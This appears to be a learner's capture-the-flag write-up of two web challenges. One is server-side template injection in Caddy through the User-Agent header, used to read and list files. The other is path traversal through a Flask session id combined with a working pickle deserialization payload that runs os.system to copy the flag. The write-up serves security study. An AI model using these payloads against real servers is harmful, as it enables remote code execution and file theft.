 # WEB 
https://caddyserver.com/docs/modules/http.handlers.templates

## ez v2
```
ua.caddy.chal-kalmarc.tf {
tls internal
templates
import html_reply `User-Agent: {{.Req.Header.Get  "User-Agent"}}`
}

http.caddy.chal-kalmarc.tf {
tls internal
templates
import html_reply "You are connected with {http.request.proto} ({tls_version}, {tls_cipher})."
}
```
the vuln is based around the `User-Agent` that we supply through intercepting with burp
we can supply SSTI through it so our payload is executed server-side

A few knowledge needed to complete the chall is understanding how [caddy](https://caddyserver.com/docs/modules/http.handlers.templates) works 

so we can disclose file with "readFile" and "include".
and with "listFiles" we can list the current directory to find the flag that has been renamed randomly

## --WHAT I'VE LEARNED--
- the vuln: SSTI through user-agent
- knowledge about caddy configuration
- overlooking the caddyfile which is the core clue of this chall, previously i though it was like some docker conf file
-------------------------------

## FileStore

```
from flask import Flask, request, render_template, redirect, session
from flask_session import Session
import os

SESSION_TYPE = 'filesystem'
MAX_CONTENT_LENGTH = 1024 * 1024

app = Flask(__name__)
app.config.from_object(__name__)
Session(app)

@app.route('/', methods=['GET', 'POST'])
def index():
    path = f'static/uploads/{session.sid}' 
    if request.method == 'POST':
        f = request.files['file']
        if '..' in f.filename:
            return "bad", 400
        os.makedirs(path, exist_ok=True)
        f.save(path + '/' + f.filename)
        if not session.get('files'):
            session['files'] = []
        session['files'].append(f.filename)
        return redirect('/')
    return render_template('index.html', path=path, files=session.get('files', []))

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```
given the app.py above my original thoughts are zipslip attack but it didn't turn out to be. i was to focused on how to bypass the '..' restriction
without considering that path Traversal could be achieved through {session.sid} which in this case is not sanitized

another thing to note is that 
``
Setting a flask session to filename means that session files are saved on the server as files. How do we save them? Well, using Pickle serialization of course! 
What’s crazy about this is that Pickle is considered dangerous and if you unpickle a user-controlled value it is essentially game over.
``
AND
``
The Dockerfile also contains: RUN chmod 777 static/uploads flask_session which is a pretty major hint that we are going to need to use this directory traversal to overwrite values in the flask_session directory.
``
i just noticed this after reading the WU

he sets his cookie to 'xxx' and is mapped by the server to '254b2716336df2553ce5c04a934d56e4'

so he made a pickle payload 
``
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('cp /flag.txt /app/static/uploads/abcd.txt')
        return os.system, (cmd,)

def generate_exploit():
    payload = pickle.dumps(RCE(), 0)
    return b"\x00"*4 + payload


with open("254b2716336df2553ce5c04a934d56e4", "wb") as f:
    f.write(generate_exploit())
``
with this he changed the cookie from 'xxx' to '../../flask_session' and uploaded the file
which ultimately overwrite the session.

back to 'xxx' session to open the file which contain the flag

## -- WHAT I'VE LEARNED --
- the vuln is unsecure pickle with path traversal
- read the docker file, some clue like 'RUN chmod 777 static/uploads flask_session' might come in handy
- the serialize pickle is located in flask session that is configured to save files
  

